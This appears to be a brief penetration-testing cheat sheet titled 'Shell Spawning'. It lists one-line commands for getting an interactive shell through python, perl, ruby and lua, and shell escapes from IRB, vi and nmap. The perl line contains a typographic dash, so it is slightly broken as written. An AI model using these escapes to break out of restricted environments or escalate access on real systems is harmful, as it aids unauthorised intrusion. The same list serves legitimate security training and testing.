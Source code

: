 ## Shell Spawning

    python -c 'import pty; pty.spawn("/bin/sh")'

    echo os.system('/bin/bash')

    /bin/sh -i

    perl —e 'exec "/bin/sh";'

    perl: exec "/bin/sh";

    ruby: exec "/bin/sh"

    lua: os.execute('/bin/sh')

    (From within IRB)

    exec "/bin/sh"

    (From within vi)

    :!bash

    (From within vi)

    :set shell=/bin/bash:shell

    (From within nmap)

    !sh
